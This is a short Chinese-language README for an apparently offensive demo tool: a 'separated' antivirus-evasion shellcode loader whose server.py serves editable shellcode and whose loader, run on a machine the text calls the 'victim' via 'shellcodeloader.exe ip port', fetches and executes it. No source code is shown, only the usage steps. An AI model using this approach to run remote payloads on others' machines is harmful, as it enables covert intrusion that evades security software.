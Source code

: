 ## 简介
学习了倾旋大表哥的免杀系列，还有亮神的文章，根据分离免杀的思路写了一个demo，真要用，建议去使用倾旋大表哥的Cooolis-ms，我吹爆。 

## 名字由来
我就是个起名鬼才，随手就是个名字。  

## 优势
问就是没有  

## 使用
在服务器上运行server.py，注意根据需求修改文件中shellcode内容即可。   
编译shellcodeloader。  
然后victim上运行：
```
shellcodeloader.exe ip port #服务器的ip和端口
```

## 其他
有问题不要找我，自己跟着网上代码改就可以了。  
